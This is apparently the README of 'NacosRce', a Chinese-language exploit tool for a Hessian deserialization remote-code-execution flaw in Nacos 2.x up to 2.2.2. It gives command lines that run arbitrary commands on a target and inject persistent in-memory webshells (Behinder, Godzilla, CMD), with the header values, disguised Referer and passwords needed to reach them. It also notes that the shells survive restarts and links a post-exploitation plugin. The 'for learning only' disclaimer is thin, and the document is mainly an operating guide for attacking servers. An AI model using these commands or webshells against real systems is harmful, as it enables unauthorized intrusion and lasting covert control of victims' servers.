 ## Nacos Hessian 反序列化漏洞利用工具 v0.4

```latex

  _   _                     ____          
 | \ | | __ _  ___ ___  ___|  _ \ ___ ___ 
 |  \| |/ _` |/ __/ _ \/ __| |_) / __/ _ \
 | |\  | (_| | (_| (_) \__ \  _ < (_|  __/
 |_| \_|\__,_|\___\___/|___/_| \_\___\___|
```
<br />Author: 刨洞安全 && 凉风<br />
<br />注意：工具仅供学习使用，请勿滥用，否则后果自负！

<br />**食用方式 **<br />
1. 自动注入内存马并执行命令	java -jar NacosRce.jar Url Jraft端口 "Command"
   <br />	
   ```shell
   java -jar NacosRce.jar http://192.168.90.1:8848  7848 "whoami"
   ```
2. 只注入内存马
   ```shell
      java -jar NacosRce.jar http://192.168.90.1:8848 7848 memshell
   ```
   
   <br />


<br />内存马说明：
<br />一、冰蝎内存马：
   <br />1、需要设置请求头x-client-data:rebeyond
   <br />2、设置Referer:https://www.google.com/
   <br />3、路径随意
   <br />4、密码rebeyond
   ![img.png](img.png)
<br />二、哥斯拉内存马：
   <br />1、需要设置请求头x-client-data:godzilla
   <br />2、设置Referer:https://www.google.com/
   <br />3、路径随意
   <br />4、密码是pass 和 key
<br />![img_1.png](img_1.png)
<br />三、CMD内存马：
   <br />1、需要设置请求头x-client-data:cmd
   <br />2、设置Referer:https://www.google.com/
   <br />3、请求头cmd:要执行的命令
<br />![img_2.png](img_2.png)
v0.5版本实现了：
<br />1、不出网漏洞利用
<br />2、可多次发起漏洞利用
<br />3、同时注入冰蝎/哥斯拉/CMD内存马
<br />4、内存马对nacos多版本进行了兼容
<br />
<br />tips:
<br />1、请用jdk1.8
<br />2、适用于 Nacos 2.x <= 2.2.2
<br />3、非集群的也能打哦
<br />4、此内存马重启nacos依然存活
<br />
<br />关于Windows
<br />如用下面的方式执行，注入内存马时会生成临时文件 C:\Windows\Temp\nacos_data_temp 和 C:\Windows\Temp\nacos_data_temp.class 文件
```shell
java -jar NacosRce.jar http://192.168.90.1:8848  7848 "whoami" windows
```
<br />如果没有在最后加 windows，临时文件会在 /tmp/nacos_data_temp /tmp/nacos_data_temp.class，所以权限足够的话，不指定windows也能打成功
<br />windows 没打成功也许是因为没权限操作C盘或其他原因
<br />
<br />
项目地址：https://github.com/c0olw/NacosRce
推荐哥斯拉Nacos后渗透插件：https://github.com/pap1rman/postnacos
<br />参考文章
<br />[https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
<br />[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)
<br />[https://github.com/Y4er/ysoserial](https://github.com/Y4er/ysoserial)

